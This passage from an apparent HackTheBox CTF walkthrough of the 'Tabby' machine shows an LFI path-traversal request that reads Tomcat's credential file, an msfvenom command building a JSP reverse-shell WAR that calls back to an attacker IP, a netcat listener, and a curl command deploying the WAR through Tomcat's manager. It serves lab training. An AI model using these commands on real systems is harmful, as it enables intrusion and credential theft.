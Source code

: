 
I used the LFI vulnerability we found in the previous site to get the file using the following request: `http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`


![tomcat-pass-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/tomcat-pass-09.png)


The credentials are `tomcat : $3cureP4s5w0rd123!`, and we can see this user has the `admin-gui` and `manager-script` roles which should give us access to the text based manager application, not the GUI. 


### Manager Exploit
 

Based on our user's roles, we only have access to the text based Manager system, so to exploit this we have to use the command line.


First, let's create a WAR reverse shell script using:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.54 LPORT=443 -f war > app.war
```

Next, start the local listener with:

```bash
rlwrap nc -lnvp 443
```


Now we need to create a varaible for the password and deploy the `app.war` file using:

```bash
password=\$3cureP4s5w0rd123!
curl -v -u tomcat:$password --upload-file app.war "http://tabby.htb:8080/manager/text/deploy?path=/app/update=true"
```
